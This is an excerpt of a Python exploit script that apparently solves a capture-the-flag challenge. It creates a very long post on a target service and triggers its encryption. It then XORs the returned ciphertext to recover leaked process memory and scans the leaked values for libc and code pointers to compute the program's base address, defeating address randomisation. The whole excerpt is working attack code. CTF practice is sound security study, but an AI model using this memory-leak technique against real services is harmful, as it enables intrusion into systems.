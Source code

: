 ```python
        return re.findall(r'<label>(.*)</label>', text,  re.DOTALL)[0].strip()
 
conn = Conn()
conn.signup(1)
# Create long post (0x100000 bytes)
post_id = conn.post("A" * 0x100000)
# Encrypt
conn.try_encrypt(post_id)
# Get leaked information
content = conn.get_encrypted_post(post_id)
content = base64.b64decode(content)
content = bytearray([c ^ ord(b'A') for c in content])


th_max =  0x800000000000
th_min = 0x7f0000000000
libc_min = 0x00007fe8e5d91000
libc_max = 0x00007fe8e6324000
max = 0
min = 0x7fffffff0000

code_min_th = 0x550000000000
code_max_th = 0x570000000000
code_min = 0x570000000000

# f = open('address.txt', 'w')
for i in range(len(content)//8):
    a = int.from_bytes(content[i*8:i*8+8], 'little')
    # f.write(hex(a)+'\n')
    if th_min < a and a < th_max:
        if a > max:
            max = a
        if a < min:
            min = a
    if code_min_th < a < code_max_th:
        if a < code_min:
            code_min = a
print('min : 0x%x' % min)
print('max : 0x%x' % max)
print('code_min : 0x%x' % code_min)

codebase = 0xdeadbeef
if (code_min & 0xfff) == 0xdc0:
    codebase = code_min - 0xa1cdc0
elif (code_min & 0xfff) == 0xf80:
    codebase = code_min - 0xa1df80
else:
    codebase = code_min - 0xa24c80
print('codebase : 0x%x' % codebase)
```
